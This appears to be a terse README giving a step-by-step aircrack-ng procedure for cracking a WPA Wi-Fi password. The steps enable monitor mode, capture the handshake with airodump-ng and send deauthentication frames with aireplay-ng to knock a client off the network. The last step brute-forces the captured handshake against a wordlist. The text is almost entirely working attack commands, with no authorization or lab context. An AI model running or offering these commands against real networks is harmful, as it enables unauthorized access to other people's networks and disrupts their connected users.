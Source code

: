 1. `#iwconfig`
find out the interface name of wireless

2. `#iwlist wlan0 scan`
scanning for nearby access points

3.  `#airmon-ng check`
check these running process that are interfering

4. `#airmon-ng check kill`
kill all process that are interfering 
NetworkManager
wpa_supplicant

5. `airmon-ng start wlan0`
switch to monitor mode

6. `airodump-ng -c <Channel Number> --bssid <AP MAC Address> -w <Writeout File> wlan0mon`
Channel Number, AP MAC Address are inside of the second command's output, wlan0mon is the interface name of wireless at monitor mode. using the command to capture fourth handshake, if hasn't handshake, to kicking a client to off the network and forcing it to reconnect, see below

7. `aireplay-ng -0 1 -a <AP MAC Address> -c <Client MAC Address> wlan0mon`
Client MAC Address is inside of the fifth command's output, -0 means deauthtication 1 is the number of deauthentication requests to send


After the sixth command was complemented, will be capture the fourth handshake packets(in .cap file, using 'eapol' to filter the handshake packets in wireshark)

final:
`aircrack-ng -w <Passwdlst> -b <AP MAC Address> WriteoutFile*.cap`
brute force password
